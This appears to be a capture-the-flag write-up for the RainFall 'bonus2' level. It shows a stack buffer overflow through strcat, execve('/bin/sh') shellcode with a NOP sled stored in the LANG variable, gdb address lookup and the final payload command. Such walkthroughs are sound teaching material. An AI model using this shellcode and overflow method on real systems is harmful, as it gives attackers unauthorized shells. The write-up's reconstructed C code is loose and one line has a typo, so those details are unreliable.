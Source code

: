 The program requires 2 arguments for input

```
bonus2@RainFall:~$ ./bonus2
bonus2@RainFall:~$ ./bonus2 1
bonus2@RainFall:~$ ./bonus2 1 2
Hello 1
```

Program allocate memory for buffer  

```
memset(buffer, 0, 72);
```

And copy 40 characters from argv[1] to buffer

```
strncpy(buffer, argv[1], 40);
```

Copy 32 characters more right after the first 40 characters from argv[2]

```
strncpy(&buffer[40], argv[2], 32);
```

Also there is checking of LANG env

```
char* env = getenv("LANG");
```

Depending on the value of the variable program sets value of global variable ```language```

```
if (env == "fi") { 
    language = 1 
} else if (env == "nl") {
    language = 2 
}
```

In function greetuser our buffer concatenates with one of 'greeting' which is also 
depends on language value

```
if (lang == 1) {
    strcpy(buffer, "Hyvää päivää ");
} else if (lang == 2) {
    strcpy(buffer, "Goedemiddag! ");
} else if (lang == 0) {
    strcpy(buffer, "Hello ");
}

strcat(buffer, name)
```

We can try to calculate the offset to the eip register

With language equal ```fi``` offset is 18 and with ```nl``` offset is 23


Prepare payload for LANG env

```LANG=["fi" || "nl"]+[noopInstruction]+[shellCode]```

```
export LANG=$(python -c 'print("fi" + "\x90" * 200 + "\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xcd\x80")')
```

```
break main
run $(python -c 'print "Q"*40') test
x/30s *((char **)environ) 
```

```
...
0xbffffe58:	 "LANG=fi\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220"...
0xbfffff20:	 "\220\220\220\220\220\220\220j\vX\231Rh//shh/bin\211\343\061\311\315\200"
...
```
Get 0xbffffe58 and add 2 bytes to skip length of "fi" or "li"
0xbffffe58 + 2 = 0xbffffe5a -> \x5a\xfe\xff\xbf

Payload for program

```
./bonus2 $(python -c 'print "Q" * 40') $(python -c 'print "Q" * 18 + "\x5a\xfe\xff\xbf"')
```